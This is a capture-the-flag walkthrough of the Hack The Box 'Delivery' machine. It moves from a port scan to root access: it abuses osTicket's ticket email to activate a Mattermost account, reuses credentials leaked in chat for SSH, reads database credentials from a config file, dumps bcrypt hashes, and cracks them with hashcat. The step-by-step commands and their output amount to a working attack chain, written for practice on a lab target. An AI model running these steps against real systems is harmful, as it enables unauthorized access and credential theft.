

# Target
| Category          | Details                                                  |
|-------------------|----------------------------------------------------------|
| 📝 **Name**       | [Delivery](https://app.hackthebox.com/machines/Delivery) |  
| 🏷 **Type**       | HTB Machine                                              |
| 🖥 **OS**         | Linux                                                    |
| 🎯 **Difficulty** | Easy                                                     |
| 📁 **Tags**       | osTicket, Mattermost, hashcat                            |

# Scan
```
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: Welcome
|_http-server-header: nginx/1.14.2
8065/tcp open  http    Golang net/http server
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mattermost
```

# Attack path
1. [Gain initial foothold with credentials discovered in Mattermost internal communication](#gain-initial-foothold-with-credentials-discovered-in-mattermost-internal-communication)
2. [Escalate to `root` user with variant of credentials discovered in Mattermost internal communication](#escalate-to-root-user-with-variant-of-credentials-discovered-in-mattermost-internal-communication)

### Gain initial foothold with credentials discovered in Mattermost internal communication

#### Add `delivery.htb` and `helpdesk.delivery.htb` to `/etc/hosts`
```
┌──(magicrc㉿perun)-[~/attack/HTB Delivery]
└─$ echo "$TARGET delivery.htb helpdesk.delivery.htb" | sudo tee -a /etc/hosts
10.129.175.168 delivery.htb helpdesk.delivery.htb
```

#### Create ticket using osTicket to generate 'internal' email address
This step must be done manually due to captcha verification in place. After ticket is created an email address for this particular ticket will be created as well (e.g. 7830834@delivery.htb). Sending message to this email address will post a reply in scope of said ticket. As we can access ticket details we will exploit this functionality to create internal email inbox. 

#### Create Mattermost account using generated email address and obtain activation link via osTicket 
```
┌──(magicrc㉿perun)-[~/attack/HTB Delivery]
└─$ OSTICKET_EMAIL=john.doe@server.com
OSTICKET_NUMBER=7830834
MATERMOST_USER=$RANDOM$RANDOM
MATTERMOST_PASSWORD='P$ssW0rd!123'

curl -s http://delivery.htb:8065/api/v4/users -d "{\"email\": \"$OSTICKET_NUMBER@delivery.htb\", \"username\": \"$MATERMOST_USER\", \"password\": \"$MATTERMOST_PASSWORD\"}" -o /dev/null && \
CSRF_TOKEN=$(curl -s -c cookies.txt http://helpdesk.delivery.htb/view.php | grep -Po 'name="__CSRFToken__"\s+value="\K[^"]+') && \
ACTIVATION_TOKEN=$(curl -L -s -b cookies.txt http://helpdesk.delivery.htb/login.php -d "__CSRFToken__=$CSRF_TOKEN&lemail=$OSTICKET_EMAIL&lticket=$OSTICKET_NUMBER" | grep -oP 'token=\K[^&]+') && \
echo "\nURL: http://delivery.htb:8065/do_verify_email?token=$ACTIVATION_TOKEN&email=$OSTICKET_NUMBER%40delivery.htb\nEmail: $OSTICKET_NUMBER@delivery.htb\nPassword: $MATTERMOST_PASSWORD"

URL: http://delivery.htb:8065/do_verify_email?token=ippnb9jof8j6k1msx1az1ecqzczwca5ffw673du1mse4mgwihdfb8bosstbgc3oc&email=7830834%40delivery.htb
Email: 7830834@delivery.htb
Password: P$ssW0rd!123
```

#### Use browser to activate and login to Mattermost account
After navigating to internal channel we can see that `root` user:
* Posts `maildeliverer:Youve_G0t_Mail!` credentials
* Warns about resuing of `PleaseSubscribe!` password and that its variants could be used to break hashes



#### Use discovered credentials to gain access over SSH
```
┌──(magicrc㉿perun)-[~/attack/HTB Delivery]
└─$ ssh maildeliverer@delivery.htb           
maildeliverer@delivery.htb's password: 
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jan  5 06:09:50 2021 from 10.10.14.5
maildeliverer@Delivery:~$ id
uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```

### Escalate to `root` user with variant of credentials discovered in Mattermost internal communication

#### Obtain Mattermost MySQL connection credentials
```
maildeliverer@Delivery:~$ grep -oP '"DataSource": "\K[^@]+' /opt/mattermost/config/config.json
mmuser:Crack_The_MM_Admin_PW
```

#### Use Mattermost MySQL connection credentials to dump user hashes
```
maildeliverer@Delivery:~$ mysql -h 127.0.0.1 -u mmuser -p'Crack_The_MM_Admin_PW' --batch --skip-column-names -e "SELECT Username, Password FROM Users WHERE Password != '';" mattermost | tr '\t' ':' > hashes.txt && cat hashes.txt
c3ecacacc7b94f909d04dbfd308a9b93:$2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK
5b785171bfb34762a933e127630c4860:$2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
ff0a21fc6fc2488195e16ea854c963ee:$2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq
2031116825:$2a$10$5BzAOssqG8nArFiBE5iNZeqRkwmZB3Dhy8RACrmSa3Bg6jvRel8bi
9ecfb4be145d47fda0724f697f35ffaf:$2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm
```

#### Use `hashcat` to break exfiltrated hashes with variants of `PleaseSubscribe!` password
```
┌──(magicrc㉿perun)-[~/attack/HTB Delivery]
└─$ hashcat -m 3200 -a 3 hashes.txt --username 'PleaseSubscribe!?d?d' --quiet
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
```

#### Use discovered credentials to escalate `root` user 
```
maildeliverer@Delivery:~$ su root
Password: 
root@Delivery:/home/maildeliverer# id
uid=0(root) gid=0(root) groups=0(root)
```